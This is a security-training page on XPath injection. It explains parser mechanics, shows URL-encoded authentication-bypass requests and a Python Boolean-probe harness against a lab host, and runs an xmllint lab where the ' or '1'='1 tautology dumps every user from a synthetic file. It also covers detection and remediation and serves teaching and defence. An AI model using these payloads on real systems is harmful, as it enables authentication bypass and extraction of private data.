

# XPath Injection

> [!warning] Authorized validation only
> Use a laboratory XML document containing synthetic identities. The examples prove expression control through canary predicates and do not authorize extraction of real XML nodes or credentials.

## Parent Learning Order
SQL Injection -> NoSQL Injection -> ORM Injection -> Operating System Command Injection -> Server-Side Template Injection -> LDAP Injection -> XPath Injection -> CRLF Injection -> SSI Injection

## Core Vulnerability & Parser Mechanics (Zero)

XPath injection occurs when untrusted text is concatenated into an XPath expression before an XPath engine parses it. XPath selects nodes from an XML tree through paths, predicates, functions, operators, axes, and type conversions. If input is inserted as source, quote termination and Boolean syntax can change the expression tree. If input is supplied through a proper variable-binding API, it remains a string value and cannot introduce new predicates.

An XML-backed login might evaluate `/users/user[username='alice' and password='hash']`. The engine first tokenizes `/`, names, brackets, operators, strings, and function calls; parses them into location steps and expression nodes; establishes a context node, position, and size; then evaluates predicates. Concatenating a username into the quoted literal lets the input close that literal and append a Boolean branch. This resembles SQL injection at the code/data boundary, but XPath semantics are different and SQL escaping routines do not apply.

XPath 1.0 has subtle coercion rules. A node-set converted to Boolean is true when nonempty. A string is true when nonempty; a number is false when zero or NaN. Equality between a node-set and string compares string-values of nodes, while node-set versus Boolean first converts both to Boolean. These conversions can make a predicate true for reasons that are not obvious from source text. Operator precedence (`or`, `and`, equality, relational, arithmetic) determines the final AST, so a validator must reconstruct the exact expression with parentheses.

XPath functions can support blind predicates. `string-length`, `substring`, `contains`, `starts-with`, `count`, `name`, and `normalize-space` can transform hidden XML into Boolean observations. XPath 2.0 and XQuery add richer type systems, sequences, conditional expressions, and more functions; the engine version therefore changes both risk and diagnostics. External document loading or extension functions can create additional impact, but those capabilities should be disabled and are unnecessary for proving source injection.

The XML data model also matters. Elements, attributes, text nodes, namespaces, comments, and processing instructions have distinct node tests. Default namespaces can make an apparently correct path return no nodes. Authentication designs based on plain XML files often introduce a second flaw by storing or comparing password text directly; that should be reported separately from expression injection.

Canonicalization follows the HTTP pipeline: percent decoding, form decoding, Unicode conversion, application normalization, quote handling, and XPath compilation. XML entity decoding does not normally occur in the HTTP parameter unless the value is first embedded into XML. A WAF may inspect encoded apostrophes while the application compiles decoded quotes. The durable fix is variable binding or a non-XPath lookup API, not a blacklist of quote and bracket characters.

## Visual Attack Flow



The validation uses one seeded account and never asks the expression engine to reveal arbitrary nodes. A true/false pair proves semantic influence more reliably than one generic error.

## Weaponization & Practical Execution (Mastery)

### Controlled authentication predicate

Baseline:

```http
POST /lab/xml-login HTTP/1.1
Host: legacy.example.test
Content-Type: application/x-www-form-urlencoded
X-Assessment-ID: C2R-XPATH-007

username=C2R-NOTFOUND&password=invalid
```

```http
HTTP/1.1 401 Unauthorized
Content-Type: application/problem+json

{"title":"Invalid laboratory credentials"}
```

The deliberately vulnerable fixture contains only:

```xml
<users>
  <user><username>C2R-CANARY</username><role>synthetic</role></user>
</users>
```

A bounded predicate is URL-encoded in the username. Decoded for analysis, it closes the string and adds `or username='C2R-CANARY'`, while the fixture’s expression builder supplies the remaining delimiters:

```http
POST /lab/xml-login HTTP/1.1
Host: legacy.example.test
Content-Type: application/x-www-form-urlencoded
X-Assessment-ID: C2R-XPATH-007

username=%27%20or%20username%3D%27C2R-CANARY&password=invalid
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
X-Request-ID: req-xp-410

{"validated":"C2R-CANARY","synthetic":true}
```

Restricted trace:

```text
xpath_source=/users/user[username='' or username='C2R-CANARY' and password='invalid']
xpath_ast=Path(Predicate(Or(Equality,And(Equality,Equality))))
selected_nodes=1
```

This trace also highlights precedence risk: `and` binds more tightly than `or`. The exact vulnerable expression may need a balanced suffix or parentheses; a malformed probe that happens to return 500 is weaker evidence.

### Bounded Boolean validation

```python
import requests

URL = "https://legacy.example.test/lab/xml-search"
HEADERS = {"X-Assessment-ID": "C2R-XPATH-007"}

def check(predicate):
    r = requests.post(URL, data={"predicate": predicate}, headers=HEADERS, timeout=3)
    return r.status_code, len(r.content), r.headers.get("X-Request-ID")

probes = {
    "true_control": "string-length('C2R')=3",
    "false_control": "string-length('C2R')=4",
    "canary_prefix": "starts-with('C2R-CANARY','C2R')",
}

for name, predicate in probes.items():
    print(name, check(predicate))
```

```text
true_control  (200, 36, 'req-xp-501')
false_control (404, 29, 'req-xp-502')
canary_prefix (200, 36, 'req-xp-503')
scope guard: no XML node values requested
```

The harness establishes that predicate evaluation creates a stable response oracle; it does not contain a general extraction loop. Encoding checks compare literal apostrophe, `%27`, `%2527`, plus versus `%20`, JSON transport, duplicate fields, and Unicode quote lookalikes. A normalization difference is reported only when the application converts the lookalike into actual XPath syntax.

Remediation uses an XPath API with variables where available, precompiled constant expressions, exact schemas, and no dynamic path or function construction. For simple identity lookup, parse XML once and use a safe node API rather than building source. Password verification belongs in a modern identity store, not an XPath predicate.

## Red Team OpSec & Impact

An authorized review found a legacy partner portal using an XML file for a small synthetic migration fixture. A quote in the username produced a generic server error. The tester reconstructed the expression from a lab trace, then used a Boolean branch that could select only `C2R-CANARY`. A paired false condition returned 401 while the canary condition returned a dedicated validation marker. No arbitrary node extraction was attempted because semantic control was already proven.

The WAF logged the encoded apostrophe but lacked XPath-specific context. Application logs showed `XPathExpressionException` for malformed requests and a new expression-shape hash for the valid Boolean probe. A strong SOC analytic combines quote/bracket/Boolean tokens after final decoding, repeated true/false pairs, XPath parse exceptions, status transitions between 401 and 200, stable response-length bifurcation, and an endpoint that normally compiles one constant expression.

Useful fields include route, principal, request ID, normalized parameter type, expression template identifier, AST/operator classes, XML document identifier, selected-node count, status, response bytes, and duration. Raw expressions may contain credentials and should be redacted. Alerting on the word `or` alone is noisy; requiring parse evidence or deterministic response differences raises confidence.

The team replaced string construction with a precompiled expression and bound variable, migrated authentication to the enterprise identity service, and added regression tests for quotes, brackets, operators, malformed UTF-8, duplicate fields, and alternate encodings. Purple-team replay confirmed every test value remained a literal string and no request-dependent expression compilation occurred.

## Runnable Lab (one machine, `xmllint`)

XPath injection is SQLi's XML cousin: input concatenated into a path predicate can add `or '1'='1'` and select nodes it should not. This lab uses `xmllint` (bundled with libxml2, present on macOS and most Linux) against a synthetic user document — no code to write.

**Step 1 — the synthetic directory (`users.xml`).**

```xml
<users>
  <user><name>alice</name><pass>wonderland</pass><role>user</role></user>
  <user><name>admin</name><pass>S3cr3t!</pass><role>admin</role></user>
</users>
```

The app authenticates with `//user[name/text()='<INPUT>' and pass/text()='<PW>']/role/text()`.

**Step 2 — a valid login returns the role.**

```console
$ xmllint --xpath "//user[name/text()='alice' and pass/text()='wonderland']/role/text()" users.xml
user
```

**Step 3 — inject `' or '1'='1` to make the predicate always true and dump names.**

```console
$ xmllint --xpath "//user[name/text()='x' or '1'='1']/name/text()" users.xml
alice
admin
```

The `or '1'='1'` short-circuits every element to true — the whole node-set leaks, no credentials needed.

**Step 4 — the deliberate break: an unbalanced quote.**

```console
$ xmllint --xpath "//user[name/text()='x]/role" users.xml
XPath set is empty
XPath error : Unfinished literal
```

`Unfinished literal` is the XPath analogue of a SQL syntax error — it confirms your input reaches the expression parser, which is itself a finding. The fix is a **precompiled expression with a bound variable** (`$name`), so input can never add a predicate.

**Step 5 — cleanup:** remove the lab file.

```console
$ rm -f users.xml && ls users.xml
ls: users.xml: No such file or directory
```

**What you should now be able to do:** build the `' or '1'='1` tautology for XPath, read an `Unfinished literal` error as parser-reachability proof, and name variable binding as the fix.

## Crook → Operator → Root Checkpoint

- **Crook:** Why does `' or '1'='1` return every user?
- **Operator:** Output is suppressed (blind). How do you turn `substring()` and `string-length()` into a boolean oracle to read one canary node?
- **Root:** XPath 1.0 lacks a comment token like SQL's `--`. Explain how that changes payload construction versus SQL injection.

---
> 🔼 Up: [[Web Injection Testing]]
